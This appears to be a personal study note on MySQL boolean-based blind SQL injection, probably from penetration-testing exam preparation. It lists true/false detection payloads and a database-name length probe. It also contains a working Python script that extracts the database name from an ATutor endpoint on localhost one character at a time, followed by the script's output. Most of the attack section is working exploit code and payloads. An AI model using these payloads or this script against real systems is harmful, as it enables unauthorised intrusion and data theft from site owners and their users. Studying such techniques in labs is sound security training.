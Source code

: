 ## MySQL Boolean Based Blind SQLi

- Identifying the vulnerability:
> - My Opinion and experience (don't take it literally but I guess it's true (for me atleast)):
>   - Normally Boolean Based Blind SQLi can be detected by keeping an eye on `Content-Length` header when payload is introduced.
>   - A drastic change in response length when the some query returns true as compared to when something returns false is a 100% sure giveaway of vulnerability.
> - Payload
> - True  
> ```sql
> AND 1=1
> AND 1=1 AND 'a'='a'
> ```
> - False
> ```sql
> AND 1=1 and 'a'='b'
> ```

- Exploitation:
- Retrieving the length of database name
> - Keep an eye on `Content-Length`
> - Payload: to check if the database name is of length 15
> ```sql
> and (length(database())) = 15 --
> ```
>

- Retrieving the database name
> - We should use ASCII function coz most of the time single quotes or double quotes might cause errors or problems.
> - Refer the following to see char to ascii conversion: https://www.rapidtables.com/code/text/ascii-table.html
> - I'm way too lazy now to write down how it works.
> - Try Understanding the following python code or make changes if you want:
> ```python
> import requests
>
> def atutor_dbRetrieval():
>     target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>     i = 1
>     final_string = ""
>     prev_length = -1
>     current_length = len(final_string)
>     while prev_length < current_length:
>         for j in range(32, 256):
>             payload = f"te')/**/or/**/(select/**/ascii(substring(database(),{i},1))={j})#"
>             param = {'q': payload}
>             r = requests.get(target, param)
>             content_length = int(r.headers['Content-length'])
>             if content_length > 20:
>                 final_string += chr(j)
>                 current_length = len(final_string.strip())
>                 print(final_string)
>                 break
>         prev_length += 1
>         i += 1
>     return final_string
> 
> if __name__ == "__main__":
>     print("[+] Retrieving Database name: ....")
>     print("[+] Database Version: ", atutor_dbRetrieval())
>     print("[+] Done")
> ```
> ```
> Output:
> python .\atutor_dbRetrieval.py
> [+] Retrieving Database name: ....
> a
> at
> atu
> atut
> atuto
> atutor
> [+] Database Version:  atutor
> [+] Done
> ```
